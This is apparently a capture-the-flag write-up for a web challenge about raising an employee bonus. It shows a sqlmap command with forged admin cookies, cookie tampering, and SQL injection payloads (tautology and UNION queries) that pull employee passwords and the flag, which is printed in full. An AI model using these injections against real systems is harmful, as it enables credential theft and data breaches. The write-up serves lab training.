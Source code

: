 # [web] Fine, I'll increase my bonus myself &mdash; Write Up

## One-liner command

Since this challenge is pretty much SQLi but three times, `sqlmap -u "${challengeReview}$/review.php" --cookie="vmm_is_admin=true;vmm_logged_in=true" --dump --forms --flush-session --fresh-queries` dumps the entire database with the flag.

## Longer method

### Login page

`username` and `password` are susceptible to SQLi. Log in as any employee. It doesn't really matter either since there are three cookies: `vmm_auth`, `vmm_is_admin` and `vmm_logged_in`. We can edit `vmm_is_admin` and `vmm_logged_in` and set them to `true`.

### Search page

The search field has SQLi as well. You can play around and find out that entering

```sql
' OR 1 = 1 --
```

in the search field returns a lot more employees than usual. Our target is anyone working in Administration, since they can provide access to the Reviews page.

If we use a `UNION`, we can see the password of all these users with

```sql
' OR 1 = 1 UNION SELECT username, password, NULL, NULL, NULL FROM employees --
```

### Review page

Logging in as an admin, we can access the review page. Again, the search field is susceptible to SQLi. Reading the admin note at the top of the page, we can see that it is talking about bonuses. Perhaps a `bonus` field in the table?

Entering

```sql
' UNION SELECT * FROM employee_reviews --
```

in the field gives us the bonuses as well as the flag, `InductionCTF{p4yd4y_p4yd4y_1n7171473_b0nu5_upgr4d3_pr070c0l}`.
